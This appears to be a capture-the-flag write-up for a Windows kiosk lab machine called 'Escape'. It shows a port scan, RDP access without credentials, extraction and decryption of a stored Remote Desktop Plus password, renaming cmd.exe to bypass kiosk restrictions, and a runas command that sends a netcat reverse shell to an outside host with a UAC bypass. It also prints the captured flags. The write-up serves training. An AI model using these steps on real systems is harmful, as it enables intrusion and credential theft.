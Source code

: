 #no_right
Scan 
```sh
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: ESCAPE
|   NetBIOS_Domain_Name: ESCAPE
|   NetBIOS_Computer_Name: ESCAPE
|   DNS_Domain_Name: Escape
|   DNS_Computer_Name: Escape
|   Product_Version: 10.0.19041
|_  System_Time: 2024-07-27T14:01:13+00:00
| ssl-cert: Subject: commonName=Escape
| Not valid before: 2024-07-26T13:53:45
|_Not valid after:  2025-01-25T13:53:45
|_ssl-date: 2024-07-27T14:01:18+00:00; -3s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- Connect without credentials : 
```sh
xfreerdp /v:10.10.75.175 -sec-nla
```
- Via edge we can access to C:/ folder and grab a password : 
```xml
<!-- Remote Desktop Plus -->

<Data>

<Profile>

<ProfileName>admin</ProfileName>

<UserName>127.0.0.1</UserName>

<Password>JWqkl6IDfQxXXmiHIKIP8ca0G9XxnWQZgvtPgON2vWc=</Password>

<Secure>False</Secure>

</Profile>

</Data>
```
- Tool : 
https://gist.github.com/Yeeb1/df3ce82d56ccf4e0c72160d6b87d4d66

- Decrypt : 
```sh
python3 exploit.py --profiles profil.xml
Profile: admin, Username: 127.0.0.1, Password: Twisting3021
```

User VL{e2b03f2ac66ea91fabdce8fc1c109edb}

- Then we download the cmd from system32 , to bypass the security and exec cmd we change his nameto  msedge with F2 because we can't right click .

- Then we download netcat and runascs and exec this command : 
```sh
runas.exe admin Twisting3021 "cmd /c C:\Users\kioskUser0\Downloads\nc.exe 10.8.3.12 4242 -e cmd" --bypass-uac
```

Root VL{d0cf69050fa24e0321c46569a77df9c4}
